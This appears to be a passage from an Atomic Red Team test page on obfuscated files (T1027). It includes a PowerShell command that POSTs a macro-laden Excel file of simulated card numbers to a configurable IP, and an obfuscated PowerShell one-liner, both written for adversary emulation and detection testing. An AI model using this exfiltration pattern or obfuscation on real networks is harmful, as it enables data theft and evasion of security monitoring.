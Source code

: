 Upon successful execution, an excel containing VBA Macro containing sensitive data will be sent outside the network using HTTP.
Sensitive data includes about around 20 odd simulated credit card numbers that passes the LUHN check.

**Supported Platforms:** Windows

**auto_generated_guid:** e2d85e66-cb66-4ed7-93b1-833fc56c9319

#### Inputs:

| Name       | Description            | Type   | Default Value                                                 |
| ---------- | ---------------------- | ------ | ------------------------------------------------------------- |
| input_file | Path of the XLSM file  | path   | PathToAtomicsFolder&#92;T1027&#92;src&#92;T1027-cc-macro.xlsm |
| ip_address | Destination IP address | string | 127.0.0.1                                                     |

#### Attack Commands: Run with `powershell`!

```powershell
Invoke-WebRequest -Uri #{ip_address} -Method POST -Body "#{input_file}"
```

<br/>
<br/>

## Atomic Test #7 - Obfuscated Command in PowerShell

This is an obfuscated PowerShell command which when executed prints "Hello, from PowerShell!". Example is from the 2021 Threat Detection Report by Red Canary.

**Supported Platforms:** Windows

**auto_generated_guid:** 8b3f4ed6-077b-4bdd-891c-2d237f19410f

#### Attack Commands: Run with `powershell`!

```powershell
$cmDwhy =[TyPe]("{0}{1}" -f 'S','TrING')  ;   $pz2Sb0  =[TYpE]("{1}{0}{2}"-f'nv','cO','ert')  ;  &("{0}{2}{3}{1}{4}" -f'In','SiO','vOKe-EXp','ReS','n') (  (&("{1}{2}{0}"-f'blE','gET-','vaRIA')  ('CMdw'+'h'+'y'))."v`ALUe"::("{1}{0}" -f'iN','jO').Invoke('',( (127, 162,151, 164,145 ,55 , 110 ,157 ,163 , 164 ,40,47, 110 , 145 ,154, 154 ,157 , 54 ,40, 146, 162 , 157,155 ,40, 120, 157 ,167,145 , 162 ,123,150 ,145 , 154 , 154 , 41,47)| .('%') { ( [CHAR] (  $Pz2sB0::"t`OinT`16"(( [sTring]${_}) ,8)))})) )
```

<br/>
<br/>

## Atomic Test #8 - Obfuscated Command Line using special Unicode characters

This is an obfuscated certutil command that when executed downloads a file from the web. Adapted from T1105. Obfuscation includes special options chars (unicode hyphens), character substitution (e.g. ᶠ) and character insertion (including the usage of the right-to-left 0x202E and left-to-right 0x202D override characters).
Reference:
https://wietze.github.io/blog/windows-command-line-obfuscation
